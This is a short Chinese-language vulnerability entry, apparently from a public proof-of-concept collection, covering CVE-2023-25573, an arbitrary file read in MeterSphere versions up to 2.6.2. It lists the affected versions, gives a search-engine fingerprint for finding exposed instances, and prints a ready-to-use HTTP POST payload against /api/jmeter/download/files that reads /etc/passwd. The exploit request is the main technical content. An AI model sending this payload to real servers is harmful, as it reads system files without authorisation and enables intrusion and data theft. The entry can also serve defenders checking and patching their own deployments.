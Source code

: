 # Metersphere file 任意文件读取漏洞 CVE-2023-25573

# Metersphere file 任意文件读取漏洞 CVE-2023-25573

## 漏洞描述

MeterSphere 是一站式开源持续测试平台, 涵盖测试跟踪、接口测试、UI 测试和性能测试等功能，全面兼容 JMeter、Selenium 等主流开源标准。

Metersphere file 接口存在任意文件读取漏洞，攻击者通过接口可以获取敏感文件压缩包。

## 漏洞影响

```
Metersphere <=2.6.2
```

## 网络测绘

```
body="Metersphere"
```

## 漏洞复现

登陆页面

![image-20230424163040952](images/image-20230424163040952.png)

验证POC

```
POST /api/jmeter/download/files
Content-Type: application/json

{"reportId":"pass","bodyFiles":[{"id":"aaa","name":"/etc/passwd"}]}
```

![image-20230424163512801](images/image-20230424163512801.png)

